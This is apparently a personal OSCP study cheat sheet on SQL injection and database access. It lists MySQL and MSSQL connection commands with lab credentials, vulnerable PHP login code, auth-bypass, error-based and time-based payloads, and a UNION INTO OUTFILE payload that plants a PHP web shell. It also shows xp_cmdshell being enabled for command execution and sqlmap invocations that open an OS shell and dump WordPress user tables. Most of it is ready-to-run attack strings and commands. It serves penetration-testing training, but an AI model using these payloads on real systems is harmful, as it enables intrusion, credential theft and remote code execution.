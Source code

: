 ## Basic SQL Reminders

### For OSCp

 - mysql
 - sqlserver

MySql

Connecting:

mysql -u <username> -p <password> -h <host ip> -p <port> 
	
Important Functions etc
 - version : shows running version
 - select system_user() : returns current user name and host names
 - show databases;
 - select user, authentication_string FROM mysql.user WHERE user = '';
 
 
SQL Server
 
Connecting:
 	impacket-mssqlclient <username>:<password>@<ip of box> -windows-auth

Important Functions etc
 - select @@version
 - select name FROM sys.databases
 - select * from offsec.infromation_schema.tables
 - select * fro offsec.dbo.users

 #### id'ing sqli
 <?php
$uname = $_POST['uname'];
$passwd = $_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name = '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>

offsec' OR 1=1 -- //
' OR 1=1 in (select @@version) -- //



### Generic

Using the mysql command, we'll connect to the remote SQL instance by specifying root as username and password, along with the default MySQL server port 3306.
> mysql -u root -p'root' -h 192.168.50.16 -P 3306

We can run impacket-mssqlclient to connect to the remote Windows machine running MSSQL by providing a username, a password, and the remote IP, together with the -windows-auth keyword. 
> impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth

Basic escape chars to try
```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

Comments for diff dbs
```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
````


https://medium.com/@harrmahar/escalating-time-based-sql-injection-to-rce-using-xp-cmdshell-1b724b8e3c90

## error-based payload
```
' or 1=1 in (select @@version) -- //
```

## manual sqli via error-based payloads

```
uid=' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //&password=test
```

## find num of columns
```
' ORDER BY 10-- //
```

## union select to create a webshell
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

## connecting via impacket-mssqlclient
note: my install is wonky and need to run it as mssqlclient.py Administrator:Lab123@192.168.206.18 -windows-auth
```
kali@kali:~$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
...
SQL> EXECUTE sp_configure 'show advanced options', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
[*] INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL> RECONFIGURE;
```
we can now excute windows shell commands



## using sqlmap with -r
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
where post.txt contains the post request from burp

```
sqlmap -r wp.req -p 'question_id' -D wordpress -T wp_users --dump --technique=T --flush-session
```

GET /wp-admin/admin-ajax.php?action=get_question&question_id=1* HTTP/1.1
Host: alvida-eatery.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1



# time delay

```
'; IF (1=1) WAITFOR DELAY '0:0:10';-- 
```
